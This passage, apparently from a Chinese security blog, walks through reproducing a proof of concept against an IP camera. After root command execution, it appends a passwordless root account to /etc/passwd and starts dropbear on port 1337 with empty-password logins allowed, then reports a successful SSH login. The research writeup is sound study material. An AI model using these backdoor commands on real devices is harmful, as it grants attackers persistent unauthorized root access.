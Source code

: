   
这导致之前启动 OpenSSH 的命令怎么都没效果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4Eric7rnF3PRKX03PDibkria2C02JUyrtZ0b8raUI99uGlpicfiae7GDHwZwA/640?wx_fmt=png&from=appmsg "")  
  
  
当前 ssh 似乎是没有开，但是从 netstat 的命令执行结果上看是开了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4ENaXJcaO6liaalaXFMjNg6gEPPjnMFhSicJKXbW9gocsC9oxNZpnARfyA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EOm0ng2KK0LsvfwgowIOhePicsibRp0DPFT6BAzpUKce67YNBs7iakAq3Q/640?wx_fmt=png&from=appmsg "")  
  
  
PoC 中使用 dropbear -R -B -p 1337 在 1337 端口设置监听，还新建了一个不需要密码的账户  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4ETTbLLUNJVBp69B8wPaSbpW30RfQ8FIranp4yXvnQias3kVY4k1BBXZA/640?wx_fmt=png&from=appmsg "")  
  
  
这个摄像头的操作系统是通过 /etc/passwd 管理账户及密码的，我们既然是 root 权限，可以直接添加账户进去了  
#### 1) 添加账户  
```
echo "P::0:0:W:/:/bin/sh" >> /etc/passwd

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EfeGUTj1P55dFF7TlYMDD9LvhTAUTYhicv0bHzibSnLrwATg0J4vW3HEQ/640?wx_fmt=png&from=appmsg "")  
  
  
这种涉及到重定向的操作就不要在 Railgun 中执行了，可能是因为要显示结果，所以默认就带了输出重定向，和我们的重定向互相冲突，用 Burpsuite 就好了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4ExqGicDEPewAa7qCoh0aIp6l4GMs7rrTZKfibv1TNHwfmHicQK0ic609nVQ/640?wx_fmt=png&from=appmsg "")  
  
#### 2) 创建新的 SSH 监听  
```
dropbear -R -B -p 1337

```  
  
这条命令也在 Burpsuite 中执行，不知道为什么 Railgun 中执行会没有效果  
- -R：根据需要创建主机密钥  
  
- -B：允许空密码登录  
  
- -p 1337：该选项表示启动 Dropb  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4Eh4jvJchsjtMNPpHAqA0qbajicDVjxVL5jPFAKxlJf8CY8eV1zqxG0nA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4Esriblia5Ysap8yw6h7se4DsJSQpOul6mXgDZPzpcpq1418Seyiadee7Tw/640?wx_fmt=png&from=appmsg "")  
  
#### 3) SSH 连接测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EV1VrbKws2ickQiaKBiaNIQhCOyPnIntEgYVSAv3t7XetwuE9QPeZ1Exiag/640?wx_fmt=png&from=appmsg "")  
  
  
成功登录 SSH  
  